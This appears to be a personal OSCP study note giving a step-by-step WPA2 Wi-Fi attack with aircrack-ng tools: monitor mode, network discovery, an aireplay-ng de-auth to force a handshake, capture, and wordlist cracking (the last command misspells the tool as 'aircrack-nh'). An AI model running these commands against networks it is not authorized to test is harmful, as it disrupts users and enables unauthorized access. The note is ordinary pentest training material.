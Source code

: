 ```yaml
---
aliases:
  - Web Application Exploitation
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - wireless_pentesting
author: Mehdi N Tehrani
creat_date: 2023-12-13
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Overview
1. **Place** WiFi card in monitor mode
2. **Discover** info about network: channel, BSSID
3. **Select** network and capture data
4. **Perform** de-auth attack
5. **Capture** WPA handshake
6. **Attempt** to crack the handshake

# Process
## Place
initial check:
```
$ iwconfig
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=-2147483648 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
Set wifi device into **monitor mode**:
```
$ sudo airmon-ng check kill

Killing these processes:

    PID Name
 347198 wpa_supplicant


$ sudo airmon-ng start wlan0

PHY     Interface       Driver          Chipset

phy0    wlan0           iwlwifi         Intel Corporation Wi-Fi 6 AX200 (rev 1a)
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```
Check if it's gone into monitor mode:
```
$ iwconfig
wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=-2147483648 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

**Stop monitor mode** and set back to *managed* or *station* mode:
```
$ sudo airmon-ng stop wlan0mon

PHY     Interface       Driver          Chipset

phy0    wlan0mon        iwlwifi         Intel Corporation Wi-Fi 6 AX200 (rev 1a)
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)

```

## Discover
get a list of all wifi nodes around us:
`airodump-ng wlan0mon`
just channel 6:
`airodump-ng wlan0mon -c 6`

## Select
select the access point you'd want to attack

## Perform
#de_auth #deauth
de-auth attack. Kick someone off of wireless network to get a WPA2 handshake:
```
aireplay-ng -0 1 -a <ap_mac> -c <station_mac>
             ^ de-auth
               ^ attempt once
                  ^ access point 
                              ^ client - device we want to de-auth
```

## Capture
capture into file `capture`  files e.g. `capture-01.cap`, `capture-01.csv`, etc. will get generated
```
airodump-ng wlan0mon --bssid <ap_bssid> -w capture wlan0mon
```

## Attempt
crack ap password using a wordlist
```
aircrack-nh -w wordlist.txt -b <ap_bssid> <capture_file.cap>
```